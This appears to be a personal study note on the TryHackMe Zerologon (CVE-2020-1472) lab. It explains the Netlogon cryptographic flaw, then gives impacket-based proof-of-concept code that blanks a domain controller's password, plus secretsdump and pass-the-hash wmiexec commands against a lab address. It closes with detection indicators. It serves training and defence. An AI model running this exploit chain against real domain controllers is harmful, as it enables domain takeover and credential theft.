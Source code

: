 ```yaml
---
tags: 🥷
url: https://tryhackme.com/room/zer0logon
---
```


# Zerologon

## NetLogon Protocol

- **Overview**
	- is an RPC interface *(Windows domain controllers)*
	- used 4 user and machine authentication *(e.g logging in to servers using NTLM, update password)*
	- available over TCP through a dynamic port set by the *portmapper* service OR through an SMB pipe on `445`
	- it uses a customized cryptographic protocol to let a client *(a domain-joined computer)* and server *(the domain controller)* prove to each other that they both know a shared secret *(i.e hash of the client's account password)*
- initial auth handshake
	- ![[Pasted image 20220602151627.png]]

## AES-CFB8 insecure use
- The cryptographic primitive both the client and server use to generate credential values is implemented in a function called `ComputeNetlogonCredential` *(takes an 8-byte input & performs transformasion w the secret esssion key)*
- To acomplish this it uses the [CFB8 (8-bit cypher feedback) mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CFB)
	- ![[Pasted image 20220603141153.png]]
- Instead of generating the Initialization Vector *(IV)* randomly, the `ComputeNetlogonCredential` function **defines it as a fixed value which consits of 16 zero bytes** => this violates the requirments for using AES-CFB8 securely
- Ok but what could go wrong? Well: **for 1 in 256 keys, applying AESCFB8 encryption to an all-zero plaintext will result in all-zero ciphertext**
	- ![[Pasted image 20220603141629.png]]

## Exploitation
![[Pasted image 20220603143500.png]]
1. Spoofing the client credential
	- after exchanging challenges with a `NetrServerReqChallenge` call
	- a client authenticates by doing a `NetrServerAuthenticate3` call, which has a parameter `ClientCredential` *(that is computed by applying the `ComputeNetlogonCredential` to the client challenge)*
	- because we have control over the client challenge there's nothing stopping us to set it to 8 zeroes => for 1 in 256 session keys, the correct `ClientCredential` will also consist of 8 zeroes
	- session key will be different for every authentication attempt
	- computer accounts are not locked after invalid login attempt => we can try a bunch of times until we hit a key & authentication succeeds
2. Disabling signing & sealing
	- ok we can bypass the auth call, but we still have no idea what the value of the session key is
	- it becomess problematic due to Netlogon'ss transport encryption mechanism *(RPC signing & sealing)*, which uses this key but a different scheme than `ComputeNetlogonCredential`
	- luckily, signing & sealing is optional => so we can simply omit the flag in the `NetrServerAuthenticate3` call & continue
3. Spoofing a call
	- even when encryption is disabled, every call must contain a so-called `authenticator` value which is computed by applying `ComputeNetlogonCredential(w session key)` to the `ClientStoredCredential + Timestamp`
		- `ClientStoredCredential`: incrementing value maintained by the client & intialised to the same value as the `ClientCredential` we provided => will be 0
		- `Timestamp`: the current Posix time; server doesn't place many restriction on this value => simply pretend that it’s January 1st, 1970 = 0
	- `ComputeNetlogonCredential(0) = 0` => we can authenticate our first call by simply providing an all-zero authenticator & timestamp
4. Changing computer's AD password
	- we can leverage the `NetrServerPasswordSet2` call to set a new password for the client
		- password is not hashed but it is encrypted with the session key by using again `CFB8` with an all-zero IV
	- plaintext password structure in the Netlogon protocol consists of 516 bytes *(last 4 being the pass len)*
	- provide 516 zeroes => decryption to 516 zeroes => zero-length password *(setting empty passwords for a computer is not forbidden)* => can set an empty password for any computer in the domain
	- afterwards, we can simply set up a new Netlogon connection on behalf of this computer
	> **NOTE**: When changing a computer password in this way it is only changed in the AD. The targeted system itself will still locally store its original password.
5. From pass change to domain admin

### Lab
- **Perequistes**
	- check out the [POC released by secura](https://github.com/SecuraBV/CVE-2020-1472)
	- install [impacket]():
		```bash
		python3 -m pip install virtualenv
		python3 -m virtualenv impacketEnv  
		source impacketEnv/bin/activate
		pip install git+https://github.com/SecureAuthCorp/impacket
		```
	- setup a local Domain Name Controller *([THM zer0logon room](https://tryhackme.com/room/zer0logon))*
- Modify `zerologon_tester.py` to reset the domain controller password & run it: `python zerologon_tester.py DC01 10.10.45.187`
	```python
	...
	
	def build_new_pass_req(dc_handle, target_computer):
    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    newPassRequest['ComputerName'] = target_computer + '\x00'

    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/76c93227-942a-4687-ab9d-9d972ffabdab
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp']  = b'\x00' * 4
    newPassRequest['Authenticator'] = auth

    # consists of 516 bytes of random padding: junk + password + length of pass (last 4 bytes)
    newPassRequest['ClearNewPassword'] = b'\x00' * 516
    return newPassRequest

	def try_zero_authenticate(dc_handle, dc_ip, target_computer):
		...
		
		# It worked!
    	assert server_auth['ErrorCode'] == 0
    	server_auth.dump()
    	print(f"server challenge {serverChall}")

    	try:
        	# Trigger password reset
        	print(f"Attempting password reset on {target_computer}...")
			newPassReq = build_new_pass_req(dc_handle, target_computer)
			res        = rpc_con.request(newPassReq)
			res.dump()
		except Exception as e:
        	print(e)
		return rpc_con

	...
	```
- Dump hashes with [impacket's secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py): `python secretsdump.py -just-dc HOLOLIVE/DC01\$@10.10.45.187`
- Pop shell w [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) by passing the hash: `python wmiexec.py HOLOLIVE/Administrator@10.10.45.187 -hashes aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568`

## Packet Analysis
TODO

## Mitigation & Detection

- many tries to authenticate unssuccessfully
- zero key stream in auth netlogon pkgs
- ssign & sseal flags are disabled
- timesstamp in auth value is 0
- choosing cipher suite of AES-CFB8

wirehark rule to detect it *(based on timestamp, negotiation opts, challenge & iv?)*

---

## References
- [Zerologon (CVE-2020-1472): An Unauthenticated Privilege Escalation to Full Domain Privileges](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
- [Zerologon Attack Explained Technical - CVE-2020-1472](https://www.youtube.com/watch?v=EzVmGQr2IFw)
- [Whitepaper: secura](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
[[Core Windows Processes - THM]]

## See Also
[[Exploit]] |  [[Cryptography]]
